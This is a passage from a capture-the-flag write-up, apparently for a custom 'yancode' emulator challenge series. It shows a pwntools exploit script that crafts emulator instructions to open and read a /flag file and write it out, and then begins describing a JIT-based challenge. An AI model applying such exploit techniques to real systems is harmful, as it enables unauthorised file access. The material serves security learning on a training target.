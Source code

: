 ```python
    buffer += write_register(Regs.s, 1)
    buffer += instruction(Opcodes.ADD, reg, Regs.s)
    return buffer


def exploit():
    p = process(BINARY, close_fds=False)
    # p = gdb.debug(BINARY, close_fds=False, gdbscript=GDB_SCRIPT)

    # yan_shellcode_length = 0xff
    # TODO: change this back to "/flag"!!
    FLAG_PATH = b'/flag'
    OUT_PATH = b'MY_FLAG_OUT'
    flag_addr = 0
    out_addr = 0x40

    yan_buf = b''
    yan_buf += jump(addr=5, flags=Flags.UNCONDITIONAL)  # Skip the giga syscall
    yan_buf += inc_reg(Regs.d)  # d serves as the accumulator register. 
    yan_buf += giga_syscall()
    yan_buf += read_to_memory_gigasyscall(fd=0, offset=flag_addr, count=len(FLAG_PATH), expected_d=0)  # Write "/flag" into address 0
    yan_buf += open_gigasyscall(file_addr=flag_addr, expected_d=1)  # Open it
    yan_buf += read_to_memory_gigasyscall(fd=3, offset=0, count=0xff, expected_d=2)  # Read the flag content into address 0, instead of the string
    yan_buf += read_to_memory_gigasyscall(fd=0, offset=out_addr, count=len(OUT_PATH), expected_d=3)
    yan_buf += open_gigasyscall(file_addr=out_addr, expected_d=4)
    yan_buf += write_from_memory_gigasyscall(fd=4, offset=flag_addr, count=0xff, expected_d=5)  # Not sure if its needed

    with open(DEBUG_FILE_PATH, 'wb') as f:
        f.write(yan_buf)
    yan_buf_length = len(yan_buf)
    yan_buf += b'\x00' * (0x300 - len(yan_buf))  # Fill max possible yancode
    p.send(yan_buf)
    p.send(FLAG_PATH)
    p.send(OUT_PATH)

    p.interactive()

exploit()
```

Funnily, this program leaks the flag content by writing a file with the flag as its name on the file system, as it uses `open` to leak the flag :) \
This means we don't even need to use the `write` syscall. 

## Challenge 11

Now our emulator actually JITs yancode into x64 code on the fly! \
It maps a page as RWX, reads our content, compiles it to x64, and remaps it to RX only. Finally, executes the given memory. 
